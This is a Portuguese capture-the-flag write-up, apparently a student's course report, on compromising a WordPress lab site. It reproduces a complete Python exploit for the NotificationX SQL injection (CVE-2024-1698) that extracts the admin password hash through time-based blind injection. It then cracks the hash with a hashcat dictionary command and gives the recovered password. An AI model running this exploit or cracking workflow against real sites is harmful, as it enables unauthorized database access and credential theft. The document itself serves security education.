






# CTF - Semana 8

**Objetivo**  
Explorar uma vulnerabilidade de SQL Injection e obter a palavra-passe de administrador.

**Enunciado**  
O desafio CTF desta semana consiste em, novamente, atacar um site Wordpress. Em particular, descobrir endpoints na API do site que façam queries à base de dados e sejam dinamicamente geradas a partir de input do utilizador e abusar dos mesmos para executar o ataque.

Tarefas:  
- Deves começar por recolher toda a informação que conseguires do site. Em particular, e tal como num desafio anterior sobre Wordpress, descobrir versões de software instalado.

- Já sabes que queremos explorar uma vulnerabilidade de SQL injection. Será que existem vulnerabilidades reportadas em bases de dados públicas e/ou ferramentas que permitem automatizar a descoberta e abuso de vulnerabilidades de SQL injection?

- Qual o endpoint do site vulnerável, e de que forma se pode realizar um ataque? Como pode ser catalogada a vulnerabilidade?

- O ataque permitir-te-á extrair informação da base de dados do servidor. Em particular, queres descobrir a palavra-passe do administrador, mas como ditam as boas normas de segurança esta não é armazenada em limpo na base de dados, sendo armazenada apenas uma hash da palavra-passe original. Para este servidor, e em mais detalhe, qual a política de armazenamento de palavras-passe?

- Será que armazenar uma hash da palavra-passe é seguro, no sentido em que torna impossível a recuperação da palavra-passe original? Esta problemática é muito comum não só aquando de vulnerabilidades, mas também no caso de data leaks. Há várias formas de tentar reverter funções de hash para palavras-passe e ferramentas para automatizar o processo.

## 1. Reconhecimento
O primeiro passo é, tal como o enunciado diz, descobrir qual o software instalado, incluindo a versão do Wordpress e possíveis plugins.
A versão do Wordpress é a 6.7.1, tal como mostra a imagem seguinte, resultado de uma pesquisa no código-fonte:

  
*Figura 1 - versão do Wordpress*  

No entanto, esta versão não tem vulnerabilidades graves nem relacionadas com SQL Injection.

**Plugins**  
Quando entrámos no site, um dos aspetos que nos chamou mais a atenção foi a exibição de uma notificação para um post de um utilizador. A notificação está mostrada abaixo:

  
*Figura 2 - notificação do site*  

Trata-se de uma notificação gerada pelo **NotificationX**, um plugin para Wordpress desenhado para marketing, nomeadamente sites de vendas, mostrando notificações e alertas chamativos ao utilizador.

A partir do código-fonte, descobrimos que a versão instalada desse plugin é a versão 2.8.1.

  
*Figura 3 - versão do plugin NotificationX*  

## 2. Pesquisa e Exploração de Vulnerabilidades
Após uma pesquisa de vulnerabilidades para esta versão do NotificationX, descrobrimos uma vulnerabilidade de SQL Injection (**CVE-2024-1698**). Abaixo encontra-se a descrição da vulnerabilidade obtida do site [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/cve-2024-1698).

  
*Figura 4 - descrição da vulnerabilidade*  

### Exploit
Encontrámos um script [neste site](https://www.vicarius.io/vsociety/posts/exploiting-the-unexploited-unauthenticated-blind-sqli-in-notificationx-wordpress-plugin-cve-2024-1698-a-novel-exploit-for-novel-folks) que explora esta vulnerabilidade:

``` py
import argparse
import requests
import string
import urllib3
from packaging import version


# Disable SSL verification warning for simplicity
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def validate_url(url):
    if not url.startswith("http://") and not url.startswith("https://"):
        raise ValueError("Invalid URL schema. Use 'http://' or 'https://'.")


def retrieve_admin_password_hash(url, delay, debug):
    admin_password_hash = ""
    session = requests.Session()

    for idx in range(1, 41):
        # Iterate over all the printable characters + NULL byte
        for ascii_val in (b"\x00"+string.printable.encode()):
            resp = session.post(url, data = {
                "nx_id": 1337,
                "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx},1))={ascii_val},SLEEP({delay}),null)-- -"
                }
            )

            # Elapsed time > delay if delay happened due to SQLi
            if resp.elapsed.total_seconds() > delay:
                if debug and admin_password_hash:
                    print("[DEBUG]", admin_password_hash)

                # Reached NULL!
                if ascii_val == 0:
                    return admin_password_hash

                admin_password_hash += chr(ascii_val)
                break

    """
    if debug:
        print("[DEBUG] Admin password hash:", admin_password_hash)
    """

    return admin_password_hash


def exploit(url, delay, debug):
    try:
        response = requests.get(url + "/wp-content/plugins/notificationx/README.txt", verify = False)

        if response.status_code == 200:
            curr_ver = response.text.split("Stable tag:")[1].split("\n")[0].strip()
            if version.parse(curr_ver) < version.parse("2.8.3"):
                print("[+] The WordPress instance seems to be vulnerable to CVE-2024-1698.")
                admin_password_hash = retrieve_admin_password_hash(url + "/wp-json/notificationx/v1/analytics", delay, debug)
                print("[*] WordPress admin password hash:", admin_password_hash)
                return

        print("[-] The WordPress instance seems NOT to be vulnerable to CVE-2024-1698.")

    except requests.exceptions.RequestException as e:
        print(f"[-] LOG: An error occurred during the exploitation: {e}")


def main():
    parser = argparse.ArgumentParser(description="Exploit script for CVE-2024-1698.")
    parser.add_argument("--url", required=True, help="URL to send requests to.")
    parser.add_argument("--sleep-time", required=False, default=0.5, type=float, help="Sleep time for SQL payloads.")
    parser.add_argument("--debug", required=False, action="store_true", help="Debug mode enabled.")
    args = parser.parse_args()

    url = args.url.rstrip('/')
    validate_url(args.url)

    exploit(url, args.sleep_time, args.debug)


if __name__ == "__main__":
    main()
```

Ao correr o script, tivemos de esperar alguns minutos para que a execução terminasse. Obtivemos o seguinte output:

  
*Figura 5 - execução do exploit* 

### Hash
Tal como a imagem anterior mostra, a hash encontrada para a password de administrador é ```$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10```. Esta hash é do tipo phpass (Portable PHP Password), usado pelo Wordpress (e neste servidor em específico) para cifrar e armazenar passwords.

**Será que armazenar uma hash da palavra-passe é seguro, no sentido em que torna impossível a recuperação da palavra-passe original?**  
O enunciado refere este ponto e, de facto, guardar uma hash da password não garante total segurança da mesma. Se a password for fraca, um atacante pode facilmente decifrar a hash e descobrir a password com um ataque de dicionário.

Este último passo foi exatamente o que fizemos. Utilizámos a ferramenta **Hashcat** para fazer brute-force à hash utilizando um dicionário de passwords comuns muito conhecido - rockyou.txt. Guardamos a hash num ficheiro hash.txt.

Comando utilizado: ```hashcat -m 400 -a 0 hash.txt rockyou.txt```

Abaixo encontra-se o resultado:

  
*Figura 6 - hash decifrada com o Hashcat* 

Podemos verificar que o Hashcat encontrou uma correspondência para a password: **heartbroken**. A título de curiosidade, como a imagem mostra, bastaram 2 segundos para a ferramenta encontrar a password, o que chama a atenção para a necessidade de utilizar passwords fortes.

O site dos CTFs aceitou a flag com a password encontrada.

**Flag**  
flag{heartbroken}
